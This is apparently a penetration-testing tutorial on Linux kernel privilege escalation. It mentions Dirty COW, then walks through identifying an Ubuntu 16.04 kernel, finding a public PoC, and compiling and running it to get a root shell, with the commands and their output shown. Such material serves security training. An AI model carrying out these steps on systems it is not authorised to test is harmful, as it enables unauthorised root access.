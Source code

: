 # Kernel Exploits

Kernel level exploits exist for a variety of Linux kernel versions. A very well-known example is Dirty COW `*https://github.com/dirtycow/dirtycow.github.io*` (CVE-2016-5195). These leverage vulnerabilities in the kernel to execute code with root privileges. It is very common to find systems that are vulnerable to kernel exploits. It can be hard to keep track of legacy systems, and they may be excluded from patching due to compatibility issues with certain services or applications.`

Privilege escalation using a kernel exploit can be as simple as downloading, compiling, and running it. Some of these exploits work out of the box, while others require modification. A quick way to identify exploits is to issue the command uname -a and search Google for the kernel version.

<Note: Kernel exploits can cause system instability so use caution when running these against a production system.>

# Kernel Exploit Example

Let's start by checking the Kernel level and Linux OS version.

> uname -a

<Linux NIX02 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux>

> cat /etc/lsb-release 

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.4 LTS"

We can see that we are on Linux Kernel 4.4.0-116 on an Ubuntu 16.04.4 LTS box. A quick Google search for `linux 4.4.0-116-generic exploit` comes up with this (https://vulners.com/zdt/1337DAY-ID-30003) exploit PoC. Next download, it to the system using wget or another file transfer method. We can compile the exploit code using `gcc` (https://linux.die.net/man/1/gcc) and set the executable bit using `chmod +x`.

> gcc kernel_expoit.c -o kernel_expoit && chmod +x kernel_expoit

Next, we run the exploit and hopefully get dropped into a root shell.

> /kernel_expoit 

task_struct = ffff8800b71d7000
uidptr = ffff8800b95ce544
spawning root shell

Finally, we can confirm root access to the box.

> whoami

root